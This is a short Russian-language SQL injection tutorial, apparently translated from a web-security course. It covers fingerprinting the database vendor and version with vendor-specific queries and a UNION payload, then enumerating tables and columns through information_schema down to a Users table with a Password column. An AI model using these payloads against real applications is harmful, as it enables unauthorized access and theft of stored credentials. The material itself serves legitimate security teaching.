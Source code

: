## Запрос типа и версии базы данных

Потенциально можно определить тип и версию базы данных, внедрив запросы, специфичные для поставщика, чтобы проверить, работает ли один из них.

Примеры некоторых запросов для определения версии базы данных для популярных типов баз данных:

|                   |                           |
| ----------------- | ------------------------- |
| Тип базы данных   | Запрос                    |
| Майкрософт, MySQL | `SELECT @@version`        |
| Oracle            | `SELECT * FROM v$version` |
| PostgreSQL        | `SELECT version()`        |

Например, можно использовать `UNION` атаковать со следующим вводом:
`' UNION SELECT @@version--`

Это может вернуть следующий вывод. В этом случае можно подтвердить, что это база данных Microsoft SQL Server, и увидеть используемую версию:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`


## Вывод содержимого базы данных

Большинство типов баз данных (**кроме Oracle**) имеют набор представлений, называемый информационной схемой. Это предоставляет информацию о базе данных.

Например, можно запросить `information_schema.tables` чтобы перечислить таблицы в базе данных: 
`SELECT * FROM information_schema.tables`

Это возвращает вывод, подобный следующему:
```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ===================================================== 
MyDatabase     dbo       Products     BASE TABLE 
MyDatabase     dbo       Users        BASE TABLE 
MyDatabase     dbo       Feedback     BASE TABLE
```

Этот вывод показывает, что существуют три таблицы, называемые `Products`, `Users`, и `Feedback`.

Затем мы можем запросить `information_schema.columns` чтобы перечислить столбцы в отдельных таблицах:
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

Это возвращает вывод, подобный следующему:
```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= 
MyDatabase     dbo       Users     UserId       int 
MyDatabase     dbo       Users     Username     varchar 
MyDatabase     dbo       Users     Password     varchar
```